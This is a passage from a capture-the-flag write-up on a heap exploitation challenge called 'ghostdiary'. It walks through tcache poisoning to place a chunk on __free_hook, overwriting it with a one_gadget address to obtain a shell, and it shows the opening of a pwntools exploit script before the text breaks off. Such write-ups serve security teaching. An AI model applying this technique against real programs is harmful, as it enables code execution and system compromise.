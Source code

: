* We set chunk B's `fd` pointer to the address of `__free_hook`. The tcache bin now looks like this:

```c
tcachebin[0x1d0] <- chunk B <- &__free_hook
```

* We do two more mallocs of size 0x1d8, where the first malloc gives us chunk B from the tcache bin, and the second malloc gives us a chunk right on top of `__free_hook`.

* We then overwrite that chunk on `__free_hook` with the address of our one_gadget:

```c
gef➤  x/10gx 0x7f7e28fc08e8
0x7f7e28fc08e8 <__free_hook>:   0x00007f7e28c22322      0x0000000000000000
...
```

* Finally, we call `free()` one more time, which calls the function pointed to by `__free_hook`, which is our one gadget, thus giving us a shell.

#### Final exploit

```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

elf = ELF('./ghostdiary')
p = process('./ghostdiary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Credits to teamrocketist for the following two functions, they help immensely when trying to
# debug exploits
def get_base_address(proc):
	return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = ""
    PIE = get_base_address(p)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

# Application logic functions
def add(size):
    p.sendlineafter('> ', '1')

    if size <= 0xf0:
        p.sendlineafter('> ', '1')
    else:
        p.sendlineafter('> ', '2')

    p.sendlineafter(': ', str(size))

def talk(page, content):
    p.sendlineafter('> ', '2')
    p.sendlineafter(': ', str(page))
    p.sendafter(': ', str(content))

def listen(page):
    p.sendlineafter('> ', '3')
    p.sendlineafter(': ', str(page))
    content = p.recvline().split(': ')[1].strip('\n')
```